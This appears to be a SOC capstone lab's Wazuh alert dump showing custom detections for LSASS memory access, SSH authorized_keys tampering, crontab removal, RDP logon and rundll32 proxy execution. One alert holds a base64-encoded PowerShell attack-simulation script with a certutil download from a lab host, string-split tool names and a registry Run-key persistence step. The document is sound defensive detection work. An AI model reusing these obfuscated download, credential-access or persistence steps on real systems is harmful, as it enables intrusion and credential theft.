Name:\t-\r\n\tSource Network Address:\t-\r\n\tSource Port:\t\t-\r\n\r\nDetailed Authentication Information:\r\n\tLogon Process:\t\tsshd\r\n\tAuthentication Package:\tMICROSOFT_AUTHENTICATION_PACKAGE_V1_0\r\n\tTransited Services:\t-\r\n\tPackage Name (NTLM only):\t-\r\n\tKey Length:\t\t0\r\n\r\nThis event is generated when a logon session is created. It is generated on the computer that was accessed.\r\n\r\nThe subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.\r\n\r\nThe logon type field indicates the kind of logon that occurred. The most common types are 2 (interactive) and 3 (network).\r\n\r\nThe New Logon fields indicate the account for whom the new logon was created, i.e. the account that was logged on.\r\n\r\nThe network fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases.\r\n\r\nThe impersonation level field indicates the extent to which a process in the logon session can impersonate.\r\n\r\nThe authentication information fields provide detailed information about this specific logon request.\r\n\t- Logon GUID is a unique identifier that can be used to correlate this event with a KDC event.\r\n\t- Transited services indicate which intermediate services have participated in this logon request.\r\n\t- Package name indicates which sub-protocol was used among the NTLM protocols.\r\n\t- Key length indicates the length of the generated session key. This will be 0 if no session key was requested.\""
      },
      "eventdata": {
        "subjectUserSid": "S-1-5-18",
        "subjectUserName": "WIN10$",
        "subjectDomainName": "WORKGROUP",
        "subjectLogonId": "0x3e7",
        "targetUserSid": "S-1-5-21-2093812193-1135278953-2291312261-1000",
        "targetUserName": "soc",
        "targetDomainName": "WIN10",
        "targetLogonId": "0xef8725",
        "logonType": "3",
        "logonProcessName": "sshd",
        "authenticationPackageName": "MICROSOFT_AUTHENTICATION_PACKAGE_V1_0",
        "logonGuid": "{00000000-0000-0000-0000-000000000000}",
        "keyLength": "0",
        "processId": "0x188c",
        "processName": "C:\\\\Program Files\\\\OpenSSH\\\\sshd-session.exe",
        "impersonationLevel": "%%1833",
        "virtualAccount": "%%1843",
        "targetLinkedLogonId": "0x0",
        "elevatedToken": "%%1842"
      }
    }
  },
  "location": "EventChannel"
}
```

---

### Rule `100201` — SOC-100201 [T1003.001]: Process C:\\WINDOWS\\System32\\WindowsPowerShell\\v1.0\\powershell.exe accessed lsass.exe memory with rights 0x1000

```json
{
  "timestamp": "2026-10-19T18:52:15.234+0000",
  "rule": {
    "level": 14,
    "description": "SOC-100201 [T1003.001]: Process C:\\\\WINDOWS\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe accessed lsass.exe memory with rights 0x1000",
    "id": "100201",
    "mitre": {
      "id": [
        "T1003.001"
      ],
      "tactic": [
        "Credential Access"
      ],
      "technique": [
        "LSASS Memory"
      ]
    },
    "firedtimes": 1,
    "mail": true,
    "groups": [
      "local",
      "soc_capstone",
      "credential_access",
      "lsass_dump"
    ]
  },
  "agent": {
    "id": "002",
    "name": "Win10",
    "ip": "192.168.99.30"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792435935.11655772",
  "full_log": "{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Sysmon\",\"providerGuid\":\"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}\",\"eventID\":\"10\",\"version\":\"3\",\"level\":\"4\",\"task\":\"10\",\"opcode\":\"0\",\"keywords\":\"0x8000000000000000\",\"systemTime\":\"2026-10-19T18:52:14.6489417Z\",\"eventRecordID\":\"3534\",\"processID\":\"6932\",\"threadID\":\"2332\",\"channel\":\"Microsoft-Windows-Sysmon/Operational\",\"computer\":\"Win10\",\"severityValue\":\"INFORMATION\",\"message\":\"\\\"Process accessed:\\r\\nRuleName: technique_id=T1003.001,technique_name=LSASS Memory\\r\\nUtcTime: 2026-10-19 18:52:14.646\\r\\nSourceProcessGUID: {659b395a-66dc-6ad6-d204-000000000300}\\r\\nSourceProcessId: 9920\\r\\nSourceThreadId: 4708\\r\\nSourceImage: C:\\\\WINDOWS\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\r\\nTargetProcessGUID: {659b395a-5b88-6ad6-0c00-000000000300}\\r\\nTargetProcessId: 872\\r\\nTargetImage: C:\\\\WINDOWS\\\\system32\\\\lsass.exe\\r\\nGrantedAccess: 0x1000\\r\\nCallTrace: C:\\\\WINDOWS\\\\SYSTEM32\\\\ntdll.dll+15f2c4|C:\\\\WINDOWS\\\\System32\\\\KERNELBASE.dll+c4766|UNKNOWN(00007FF84DA71EC8)\\r\\nSourceUser: WIN10\\\\soc\\r\\nTargetUser: NT AUTHORITY\\\\SYSTEM\\\"\"},\"eventdata\":{\"ruleName\":\"technique_id=T1003.001,technique_name=LSASS Memory\",\"utcTime\":\"2026-10-19 18:52:14.646\",\"sourceProcessGUID\":\"{659b395a-66dc-6ad6-d204-000000000300}\",\"sourceProcessId\":\"9920\",\"sourceThreadId\":\"4708\",\"sourceImage\":\"C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\WindowsPowerShell\\\\\\\\v1.0\\\\\\\\powershell.exe\",\"targetProcessGUID\":\"{659b395a-5b88-6ad6-0c00-000000000300}\",\"targetProcessId\":\"872\",\"targetImage\":\"C:\\\\\\\\WINDOWS\\\\\\\\system32\\\\\\\\lsass.exe\",\"grantedAccess\":\"0x1000\",\"callTrace\":\"C:\\\\\\\\WINDOWS\\\\\\\\SYSTEM32\\\\\\\\ntdll.dll+15f2c4|C:\\\\\\\\WINDOWS\\\\\\\\System32\\\\\\\\KERNELBASE.dll+c4766|UNKNOWN(00007FF84DA71EC8)\",\"sourceUser\":\"WIN10\\\\\\\\soc\",\"targetUser\":\"NT AUTHORITY\\\\\\\\SYSTEM\"}}}",
  "decoder": {
    "name": "windows_eventchannel"
  },
  "data": {
    "win": {
      "system": {
        "providerName": "Microsoft-Windows-Sysmon",
        "providerGuid": "{5770385f-c22a-43e0-bf4c-06f5698ffbd9}",
        "eventID": "10",
        "version": "3",
        "level": "4",
        "task": "10",
        "opcode": "0",
        "keywords": "0x8000000000000000",
        "systemTime": "2026-10-19T18:52:14.6489417Z",
        "eventRecordID": "3534",
        "processID": "6932",
        "threadID": "2332",
        "channel": "Microsoft-Windows-Sysmon/Operational",
        "computer": "Win10",
        "severityValue": "INFORMATION",
        "message": "\"Process accessed:\r\nRuleName: technique_id=T1003.001,technique_name=LSASS Memory\r\nUtcTime: 2026-10-19 18:52:14.646\r\nSourceProcessGUID: {659b395a-66dc-6ad6-d204-000000000300}\r\nSourceProcessId: 9920\r\nSourceThreadId: 4708\r\nSourceImage: C:\\WINDOWS\\System32\\WindowsPowerShell\\v1.0\\powershell.exe\r\nTargetProcessGUID: {659b395a-5b88-6ad6-0c00-000000000300}\r\nTargetProcessId: 872\r\nTargetImage: C:\\WINDOWS\\system32\\lsass.exe\r\nGrantedAccess: 0x1000\r\nCallTrace: C:\\WINDOWS\\SYSTEM32\\ntdll.dll+15f2c4|C:\\WINDOWS\\System32\\KERNELBASE.dll+c4766|UNKNOWN(00007FF84DA71EC8)\r\nSourceUser: WIN10\\soc\r\nTargetUser: NT AUTHORITY\\SYSTEM\""
      },
      "eventdata": {
        "ruleName": "technique_id=T1003.001,technique_name=LSASS Memory",
        "utcTime": "2026-10-19 18:52:14.646",
        "sourceProcessGUID": "{659b395a-66dc-6ad6-d204-000000000300}",
        "sourceProcessId": "9920",
        "sourceThreadId": "4708",
        "sourceImage": "C:\\\\WINDOWS\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe",
        "targetProcessGUID": "{659b395a-5b88-6ad6-0c00-000000000300}",
        "targetProcessId": "872",
        "targetImage": "C:\\\\WINDOWS\\\\system32\\\\lsass.exe",
        "grantedAccess": "0x1000",
        "callTrace": "C:\\\\WINDOWS\\\\SYSTEM32\\\\ntdll.dll+15f2c4|C:\\\\WINDOWS\\\\System32\\\\KERNELBASE.dll+c4766|UNKNOWN(00007FF84DA71EC8)",
        "sourceUser": "WIN10\\\\soc",
        "targetUser": "NT AUTHORITY\\\\SYSTEM"
      }
    }
  },
  "location": "EventChannel"
}
```

---

### Rule `100202` — SOC-100202 [T1098.004]: Write to SSH authorized_keys (/home/kali/.ssh/authorized_keys) by process /usr/bin/truncate (uid=0)

```json
{
  "timestamp": "2026-10-19T17:57:36.152+0000",
  "rule": {
    "level": 10,
    "description": "SOC-100202 [T1098.004]: Write to SSH authorized_keys (/home/kali/.ssh/authorized_keys) by process /usr/bin/truncate (uid=0)",
    "id": "100202",
    "mitre": {
      "id": [
        "T1098.004"
      ],
      "tactic": [
        "Persistence"
      ],
      "technique": [
        "SSH Authorized Keys"
      ]
    },
    "firedtimes": 2,
    "mail": false,
    "groups": [
      "local",
      "soc_capstone",
      "persistence",
      "ssh_authorized_keys"
    ]
  },
  "agent": {
    "id": "001",
    "name": "ubuntu-01",
    "ip": "192.168.99.40"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792432656.1943874",
  "full_log": "type=SYSCALL msg=audit(1792432655.062:18080): arch=c000003e syscall=257 success=yes exit=3 a0=ffffff9c a1=7fff7a3fcea8 a2=841 a3=1b6 items=2 ppid=9857 pid=10803 auid=1000 uid=0 gid=0 euid=0 suid=0 fsuid=0 egid=0 sgid=0 fsgid=0 tty=(none) ses=17 comm=\"truncate\" exe=\"/usr/bin/truncate\" subj=unconfined key=\"ssh_authorized_keys\"\u001dARCH=x86_64 SYSCALL=openat AUID=\"soc\" UID=\"root\" GID=\"root\" EUID=\"root\" SUID=\"root\" FSUID=\"root\" EGID=\"root\" SGID=\"root\" FSGID=\"root\" type=CWD msg=audit(1792432655.062:18080): cwd=\"/home/soc\" type=PATH msg=audit(1792432655.062:18080): item=0 name=\"/home/kali/.ssh/\" inode=393231 dev=fc:00 mode=040700 ouid=1001 ogid=1001 rdev=00:00 nametype=PARENT cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0\u001dOUID=\"kali\" OGID=\"kali\" type=PATH msg=audit(1792432655.062:18080): item=1 name=\"/home/kali/.ssh/authorized_keys\" inode=393232 dev=fc:00 mode=0100600 ouid=1001 ogid=1001 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0\u001dOUID=\"kali\" OGID=\"kali\" type=PROCTITLE msg=audit(1792432655.062:18080): proctitle=7472756E63617465002D730030002F686F6D652F6B616C692F2E7373682F617574686F72697A65645F6B657973",
  "decoder": {
    "parent": "auditd",
    "name": "auditd"
  },
  "data": {
    "audit": {
      "type": "SYSCALL",
      "id": "18080",
      "arch": "c000003e",
      "syscall": "257",
      "success": "yes",
      "exit": "3",
      "ppid": "9857",
      "pid": "10803",
      "auid": "1000",
      "uid": "0",
      "gid": "0",
      "euid": "0",
      "suid": "0",
      "fsuid": "0",
      "egid": "0",
      "sgid": "0",
      "fsgid": "0",
      "tty": "(none)",
      "session": "17",
      "command": "truncate",
      "exe": "/usr/bin/truncate",
      "key": "ssh_authorized_keys",
      "cwd": "/home/soc",
      "directory": {
        "name": "/home/kali/.ssh/",
        "inode": "393231",
        "mode": "040700"
      },
      "file": {
        "name": "/home/kali/.ssh/authorized_keys",
        "inode": "393232",
        "mode": "0100600"
      }
    }
  },
  "location": "/var/log/audit/audit.log"
}
```

---

### Rule `100203` — SOC-100203 [T1053.003]: Linux crontab command executed by uid=1000 (auid=1000) to edit or replace scheduled jobs

```json
{
  "timestamp": "2026-10-19T17:59:14.292+0000",
  "rule": {
    "level": 8,
    "description": "SOC-100203 [T1053.003]: Linux crontab command executed by uid=1000 (auid=1000) to edit or replace scheduled jobs",
    "id": "100203",
    "mitre": {
      "id": [
        "T1053.003"
      ],
      "tactic": [
        "Execution",
        "Persistence",
        "Privilege Escalation"
      ],
      "technique": [
        "Cron"
      ]
    },
    "firedtimes": 2,
    "mail": false,
    "groups": [
      "local",
      "soc_capstone",
      "persistence",
      "linux_cron"
    ]
  },
  "agent": {
    "id": "001",
    "name": "ubuntu-01",
    "ip": "192.168.99.40"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792432754.1954623",
  "full_log": "type=SYSCALL msg=audit(1792432753.828:18689): arch=c000003e syscall=59 success=yes exit=0 a0=5dee810b5af0 a1=5dee810b63c0 a2=5dee810b2d70 a3=5dee810b63c0 items=2 ppid=11372 pid=11376 auid=1000 uid=1000 gid=1000 euid=1000 suid=1000 fsuid=1000 egid=990 sgid=990 fsgid=990 tty=(none) ses=19 comm=\"crontab\" exe=\"/usr/bin/crontab\" subj=unconfined key=\"cron_edit\"\u001dARCH=x86_64 SYSCALL=execve AUID=\"soc\" UID=\"soc\" GID=\"soc\" EUID=\"soc\" SUID=\"soc\" FSUID=\"soc\" EGID=\"crontab\" SGID=\"crontab\" FSGID=\"crontab\" type=EXECVE msg=audit(1792432753.828:18689): argc=2 a0=\"crontab\" a1=\"-r\" type=CWD msg=audit(1792432753.828:18689): cwd=\"/home/soc\" type=PATH msg=audit(1792432753.828:18689): item=0 name=\"/usr/bin/crontab\" inode=1180195 dev=fc:00 mode=0102755 ouid=0 ogid=990 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0\u001dOUID=\"root\" OGID=\"crontab\" type=PATH msg=audit(1792432753.828:18689): item=1 name=\"/lib64/ld-linux-x86-64.so.2\" inode=1206685 dev=fc:00 mode=0100755 ouid=0 ogid=0 rdev=00:00 nametype=NORMAL cap_fp=0 cap_fi=0 cap_fe=0 cap_fver=0 cap_frootid=0\u001dOUID=\"root\" OGID=\"root\" type=PROCTITLE msg=audit(1792432753.828:18689): proctitle=63726F6E746162002D72",
  "decoder": {
    "parent": "auditd",
    "name": "auditd"
  },
  "data": {
    "audit": {
      "type": "SYSCALL",
      "id": "18689",
      "arch": "c000003e",
      "syscall": "59",
      "success": "yes",
      "exit": "0",
      "ppid": "11372",
      "pid": "11376",
      "auid": "1000",
      "uid": "1000",
      "gid": "1000",
      "euid": "1000",
      "suid": "1000",
      "fsuid": "1000",
      "egid": "990",
      "sgid": "990",
      "fsgid": "990",
      "tty": "(none)",
      "session": "19",
      "command": "crontab",
      "exe": "/usr/bin/crontab",
      "key": "cron_edit",
      "execve": {
        "argc": "2",
        "a0": "crontab",
        "a1": "-r"
      },
      "cwd": "/home/soc",
      "file": {
        "name": "/usr/bin/crontab",
        "inode": "1180195",
        "mode": "0102755"
      }
    }
  },
  "location": "/var/log/audit/audit.log"
}
```

---

### Rule `100204` — SOC-100204 [T1021.001]: Remote Desktop (Logon Type 10) into Win10 by soc from 192.168.99.1

```json
{
  "timestamp": "2026-10-19T18:54:54.754+0000",
  "rule": {
    "level": 8,
    "description": "SOC-100204 [T1021.001]: Remote Desktop (Logon Type 10) into Win10 by soc from 192.168.99.1",
    "id": "100204",
    "mitre": {
      "id": [
        "T1021.001"
      ],
      "tactic": [
        "Lateral Movement"
      ],
      "technique": [
        "Remote Desktop Protocol"
      ]
    },
    "firedtimes": 2,
    "mail": false,
    "groups": [
      "local",
      "soc_capstone",
      "lateral_movement",
      "authentication_success"
    ]
  },
  "agent": {
    "id": "002",
    "name": "Win10",
    "ip": "192.168.99.30"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792436094.12267612",
  "full_log": "{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Security-Auditing\",\"providerGuid\":\"{54849625-5478-4994-a5ba-3e3b0328c30d}\",\"eventID\":\"4624\",\"version\":\"3\",\"level\":\"0\",\"task\":\"12544\",\"opcode\":\"0\",\"keywords\":\"0x8020000000000000\",\"systemTime\":\"2026-10-19T18:54:54.0124568Z\",\"eventRecordID\":\"3063\",\"processID\":\"872\",\"threadID\":\"4432\",\"channel\":\"Security\",\"computer\":\"Win10\",\"severityValue\":\"AUDIT_SUCCESS\",\"message\":\"\\\"An account was successfully logged on.\\r\\n\\r\\nSubject:\\r\\n\\tSecurity ID:\\t\\tS-1-5-18\\r\\n\\tAccount Name:\\t\\tWIN10$\\r\\n\\tAccount Domain:\\t\\tWORKGROUP\\r\\n\\tLogon ID:\\t\\t0x3E7\\r\\n\\r\\nLogon Information:\\r\\n\\tLogon Type:\\t\\t10\\r\\n\\tRestricted Admin Mode:\\tNo\\r\\n\\tRemote Credential Guard:\\tNo\\r\\n\\tVirtual Account:\\t\\tNo\\r\\n\\tElevated Token:\\t\\tNo\\r\\n\\r\\nImpersonation Level:\\t\\tImpersonation\\r\\n\\r\\nNew Logon:\\r\\n\\tSecurity ID:\\t\\tS-1-5-21-2093812193-1135278953-2291312261-1000\\r\\n\\tAccount Name:\\t\\tsoc\\r\\n\\tAccount Domain:\\t\\tWIN10\\r\\n\\tLogon ID:\\t\\t0x107E11E\\r\\n\\tLinked Logon ID:\\t\\t0x107E0F8\\r\\n\\tNetwork Account Name:\\t-\\r\\n\\tNetwork Account Domain:\\t-\\r\\n\\tLogon GUID:\\t\\t{00000000-0000-0000-0000-000000000000}\\r\\n\\r\\nProcess Information:\\r\\n\\tProcess ID:\\t\\t0x968\\r\\n\\tProcess Name:\\t\\tC:\\\\Windows\\\\System32\\\\svchost.exe\\r\\n\\r\\nNetwork Information:\\r\\n\\tWorkstation Name:\\tWIN10\\r\\n\\tSource Network Address:\\t192.168.99.1\\r\\n\\tSource Port:\\t\\t0\\r\\n\\r\\nDetailed Authentication Information:\\r\\n\\tLogon Process:\\t\\tUser32 \\r\\n\\tAuthentication Package:\\tNegotiate\\r\\n\\tTransited Services:\\t-\\r\\n\\tPackage Name (NTLM only):\\t-\\r\\n\\tKey Length:\\t\\t0\\r\\n\\r\\nThis event is generated when a logon session is created. It is generated on the computer that was accessed.\\r\\n\\r\\nThe subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.\\r\\n\\r\\nThe logon type field indicates the kind of logon that occurred. The most common types are 2 (interactive) and 3 (network).\\r\\n\\r\\nThe New Logon fields indicate the account for whom the new logon was created, i.e. the account that was logged on.\\r\\n\\r\\nThe network fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases.\\r\\n\\r\\nThe impersonation level field indicates the extent to which a process in the logon session can impersonate.\\r\\n\\r\\nThe authentication information fields provide detailed information about this specific logon request.\\r\\n\\t- Logon GUID is a unique identifier that can be used to correlate this event with a KDC event.\\r\\n\\t- Transited services indicate which intermediate services have participated in this logon request.\\r\\n\\t- Package name indicates which sub-protocol was used among the NTLM protocols.\\r\\n\\t- Key length indicates the length of the generated session key. This will be 0 if no session key was requested.\\\"\"},\"eventdata\":{\"subjectUserSid\":\"S-1-5-18\",\"subjectUserName\":\"WIN10$\",\"subjectDomainName\":\"WORKGROUP\",\"subjectLogonId\":\"0x3e7\",\"targetUserSid\":\"S-1-5-21-2093812193-1135278953-2291312261-1000\",\"targetUserName\":\"soc\",\"targetDomainName\":\"WIN10\",\"targetLogonId\":\"0x107e11e\",\"logonType\":\"10\",\"logonProcessName\":\"User32\",\"authenticationPackageName\":\"Negotiate\",\"workstationName\":\"WIN10\",\"logonGuid\":\"{00000000-0000-0000-0000-000000000000}\",\"keyLength\":\"0\",\"processId\":\"0x968\",\"processName\":\"C:\\\\\\\\Windows\\\\\\\\System32\\\\\\\\svchost.exe\",\"ipAddress\":\"192.168.99.1\",\"ipPort\":\"0\",\"impersonationLevel\":\"%%1833\",\"restrictedAdminMode\":\"%%1843\",\"remoteCredentialGuard\":\"%%1843\",\"virtualAccount\":\"%%1843\",\"targetLinkedLogonId\":\"0x107e0f8\",\"elevatedToken\":\"%%1843\"}}}",
  "decoder": {
    "name": "windows_eventchannel"
  },
  "data": {
    "win": {
      "system": {
        "providerName": "Microsoft-Windows-Security-Auditing",
        "providerGuid": "{54849625-5478-4994-a5ba-3e3b0328c30d}",
        "eventID": "4624",
        "version": "3",
        "level": "0",
        "task": "12544",
        "opcode": "0",
        "keywords": "0x8020000000000000",
        "systemTime": "2026-10-19T18:54:54.0124568Z",
        "eventRecordID": "3063",
        "processID": "872",
        "threadID": "4432",
        "channel": "Security",
        "computer": "Win10",
        "severityValue": "AUDIT_SUCCESS",
        "message": "\"An account was successfully logged on.\r\n\r\nSubject:\r\n\tSecurity ID:\t\tS-1-5-18\r\n\tAccount Name:\t\tWIN10$\r\n\tAccount Domain:\t\tWORKGROUP\r\n\tLogon ID:\t\t0x3E7\r\n\r\nLogon Information:\r\n\tLogon Type:\t\t10\r\n\tRestricted Admin Mode:\tNo\r\n\tRemote Credential Guard:\tNo\r\n\tVirtual Account:\t\tNo\r\n\tElevated Token:\t\tNo\r\n\r\nImpersonation Level:\t\tImpersonation\r\n\r\nNew Logon:\r\n\tSecurity ID:\t\tS-1-5-21-2093812193-1135278953-2291312261-1000\r\n\tAccount Name:\t\tsoc\r\n\tAccount Domain:\t\tWIN10\r\n\tLogon ID:\t\t0x107E11E\r\n\tLinked Logon ID:\t\t0x107E0F8\r\n\tNetwork Account Name:\t-\r\n\tNetwork Account Domain:\t-\r\n\tLogon GUID:\t\t{00000000-0000-0000-0000-000000000000}\r\n\r\nProcess Information:\r\n\tProcess ID:\t\t0x968\r\n\tProcess Name:\t\tC:\\Windows\\System32\\svchost.exe\r\n\r\nNetwork Information:\r\n\tWorkstation Name:\tWIN10\r\n\tSource Network Address:\t192.168.99.1\r\n\tSource Port:\t\t0\r\n\r\nDetailed Authentication Information:\r\n\tLogon Process:\t\tUser32 \r\n\tAuthentication Package:\tNegotiate\r\n\tTransited Services:\t-\r\n\tPackage Name (NTLM only):\t-\r\n\tKey Length:\t\t0\r\n\r\nThis event is generated when a logon session is created. It is generated on the computer that was accessed.\r\n\r\nThe subject fields indicate the account on the local system which requested the logon. This is most commonly a service such as the Server service, or a local process such as Winlogon.exe or Services.exe.\r\n\r\nThe logon type field indicates the kind of logon that occurred. The most common types are 2 (interactive) and 3 (network).\r\n\r\nThe New Logon fields indicate the account for whom the new logon was created, i.e. the account that was logged on.\r\n\r\nThe network fields indicate where a remote logon request originated. Workstation name is not always available and may be left blank in some cases.\r\n\r\nThe impersonation level field indicates the extent to which a process in the logon session can impersonate.\r\n\r\nThe authentication information fields provide detailed information about this specific logon request.\r\n\t- Logon GUID is a unique identifier that can be used to correlate this event with a KDC event.\r\n\t- Transited services indicate which intermediate services have participated in this logon request.\r\n\t- Package name indicates which sub-protocol was used among the NTLM protocols.\r\n\t- Key length indicates the length of the generated session key. This will be 0 if no session key was requested.\""
      },
      "eventdata": {
        "subjectUserSid": "S-1-5-18",
        "subjectUserName": "WIN10$",
        "subjectDomainName": "WORKGROUP",
        "subjectLogonId": "0x3e7",
        "targetUserSid": "S-1-5-21-2093812193-1135278953-2291312261-1000",
        "targetUserName": "soc",
        "targetDomainName": "WIN10",
        "targetLogonId": "0x107e11e",
        "logonType": "10",
        "logonProcessName": "User32",
        "authenticationPackageName": "Negotiate",
        "workstationName": "WIN10",
        "logonGuid": "{00000000-0000-0000-0000-000000000000}",
        "keyLength": "0",
        "processId": "0x968",
        "processName": "C:\\\\Windows\\\\System32\\\\svchost.exe",
        "ipAddress": "192.168.99.1",
        "ipPort": "0",
        "impersonationLevel": "%%1833",
        "restrictedAdminMode": "%%1843",
        "remoteCredentialGuard": "%%1843",
        "virtualAccount": "%%1843",
        "targetLinkedLogonId": "0x107e0f8",
        "elevatedToken": "%%1843"
      }
    }
  },
  "location": "EventChannel"
}
```

---

### Rule `100205` — SOC-100205 [T1218.011]: Suspicious rundll32 proxy execution (\"C:\\WINDOWS\\system32\\rundll32.exe\" url.dll,FileProtocolHandler calc.exe)

```json
{
  "timestamp": "2026-10-19T18:43:33.350+0000",
  "rule": {
    "level": 9,
    "description": "SOC-100205 [T1218.011]: Suspicious rundll32 proxy execution (\\\"C:\\\\WINDOWS\\\\system32\\\\rundll32.exe\\\" url.dll,FileProtocolHandler calc.exe)",
    "id": "100205",
    "mitre": {
      "id": [
        "T1218.011"
      ],
      "tactic": [
        "Defense Evasion"
      ],
      "technique": [
        "Rundll32"
      ]
    },
    "firedtimes": 1,
    "mail": false,
    "groups": [
      "local",
      "soc_capstone",
      "stealth",
      "rundll32_proxy"
    ]
  },
  "agent": {
    "id": "002",
    "name": "Win10",
    "ip": "192.168.99.30"
  },
  "manager": {
    "name": "wazuh.manager"
  },
  "id": "1792435413.10313232",
  "full_log": "{\"win\":{\"system\":{\"providerName\":\"Microsoft-Windows-Sysmon\",\"providerGuid\":\"{5770385f-c22a-43e0-bf4c-06f5698ffbd9}\",\"eventID\":\"1\",\"version\":\"5\",\"level\":\"4\",\"task\":\"1\",\"opcode\":\"0\",\"keywords\":\"0x8000000000000000\",\"systemTime\":\"2026-10-19T18:43:33.2108254Z\",\"eventRecordID\":\"3286\",\"processID\":\"6932\",\"threadID\":\"2332\",\"channel\":\"Microsoft-Windows-Sysmon/Operational\",\"computer\":\"Win10\",\"severityValue\":\"INFORMATION\",\"message\":\"\\\"Process Create:\\r\\nRuleName: -\\r\\nUtcTime: 2026-10-19 18:43:33.205\\r\\nProcessGuid: {659b395a-64d5-6ad6-5f04-000000000300}\\r\\nProcessId: 9796\\r\\nImage: C:\\\\Windows\\\\System32\\\\rundll32.exe\\r\\nFileVersion: 10.0.26100.1591 (WinBuild.160101.0800)\\r\\nDescription: Windows host process (Rundll32)\\r\\nProduct: Microsoft\u00ae Windows\u00ae Operating System\\r\\nCompany: Microsoft Corporation\\r\\nOriginalFileName: RUNDLL32.EXE\\r\\nCommandLine: \\\"C:\\\\WINDOWS\\\\system32\\\\rundll32.exe\\\" url.dll,FileProtocolHandler calc.exe \\r\\nCurrentDirectory: C:\\\\Users\\\\soc\\\\\\r\\nUser: WIN10\\\\soc\\r\\nLogonGuid: {659b395a-64cf-6ad6-935b-e60000000000}\\r\\nLogonId: 0xE65B93\\r\\nTerminalSessionId: 0\\r\\nIntegrityLevel: High\\r\\nHashes: MD5=025B13BF5652712D9B596E6766A9C386,SHA256=4B84DC6750937EB47B19CDE0D23DEBD4D2F2211300171B36D13EF5AD11DD60F9,IMPHASH=E3165C22028490334195CBDFA2962AA1\\r\\nParentProcessGuid: {659b395a-64d0-6ad6-5904-000000000300}\\r\\nParentProcessId: 2604\\r\\nParentImage: C:\\\\Windows\\\\System32\\\\WindowsPowerShell\\\\v1.0\\\\powershell.exe\\r\\nParentCommandLine: powershell  -NoProfile -EncodedCommand CgBOAGUAdwAtAEkAdABlAG0AIAAtAEkAdABlAG0AVAB5AHAAZQAgAEQAaQByAGUAYwB0AG8AcgB5ACAALQBQAGEAdABoACAAQwA6AFwAVABlAG0AcAAgAC0ARgBvAHIAYwBlACAAfAAgAE8AdQB0AC0ATgB1AGwAbAAKAAoAIwAgADEALgAgAFIAdQBsAGUAIAAxADAAMAAwADAANQA6ACAAUABvAHcAZQByAFMAaABlAGwAbAAgAGUAbgBjAG8AZABlAGQAIABjAG8AbQBtAGEAbgBkAAoAJABwADEAIAA9ACAAIgBwAG8AdwBlAHIAIgAgACsAIAAiAHMAaABlAGwAbAAuAGUAeABlACIACgAkAGEAMQAgAD0AIAAiAC0ATgBvAFAAcgBvAGYAaQBsAGUAIAAtACIAIAArACAAIgBlAG4AYwAgAGQAdwBCAG8AQQBHADgAQQBZAFEAQgB0AEEARwBrAEEAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAxACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAxACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAyAC4AIABSAHUAbABlACAAMQAwADAAMAAxADMAOgAgAGMAZQByAHQAdQB0AGkAbAAgAGQAbwB3AG4AbABvAGEAZAAKACQAcAAyACAAPQAgACIAYwBlAHIAdAAiACAAKwAgACIAdQB0AGkAbAAuAGUAeABlACIACgAkAGEAMgAgAD0AIAAiAC0AIgAgACsAIAAiAHUAcgBsAGMAYQBjAGgAZQAgAC0AZgAgAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADkAOQAuADQAMAAvACAAQwA6AFwAVABlAG0AcAAHAC4AdAB4AHQAIgAKAFMAdABhAHIAdAAtAFAAcgBvAGMAZQBzAHMAIAAtAEYAaQBsAGUAUABhAHQAaAAgACQAcAAyACAALQBBAHIAZwB1AG0AZQBuAHQATABpAHMAdAAgACQAYQAyACAALQBXAGEAaQB0ACAALQBOAG8ATgBlAHcAVwBpAG4AZABvAHcACgAKACMAIAAzAC4AIABSAHUAbABlACAAMQAwADAAMgAwADUAOgAgAHIAdQBuAGQAbABsADMAMgAgAHAAcgBvAHgAeQAgAGUAeABlAGMAdQB0AGkAbwBuAAoAJABwADMAIAA9ACAAIgByAHUAbgAiACAAKwAgACIAZABsAGwAMwAyAC4AZQB4AGUAIgAKACQAYQAzACAAPQAgACIAdQByAGwALgBkAGwAbAAsAEYAaQBsAGUAIgAgACsAIAAiAFAAcgBvAHQAbwBjAG8AbABIAGEAbgBkAGwAZQByACAAYwBhAGwAYwAuAGUAeABlACIACgBTAHQAYQByAHQALQBQAHIAbwBjAGUAcwBzACAALQBGAGkAbABlAFAAYQB0AGgAIAAkAHAAMwAgAC0AQQByAGcAdQBtAGUAbgB0AEwAaQBzAHQAIAAkAGEAMwAKAFMAdABhAHIAdAAtAFMAbABlAGUAcAAgAC0AUwBlAGMAbwBuAGQAcwAgADEACgAKACMAIAA0AC4AIABSAHUAbABlACAAMQAwADAAMgAwADYAOgAgAFIAZQBnAGkAcwB0AHIAeQAgAFIAdQBuACAAawBlAHkAIABwAGUAcgBzAGkAcwB0AGUAbgBjAGUACgByAGUAZwAuAGUAeABlACAAYQBkAGQAIAAiAEgASwBDAFUAXABTAG8AZgB0AHcAYQByAGUAXABNAGkAYwByAG8AcwBvAGY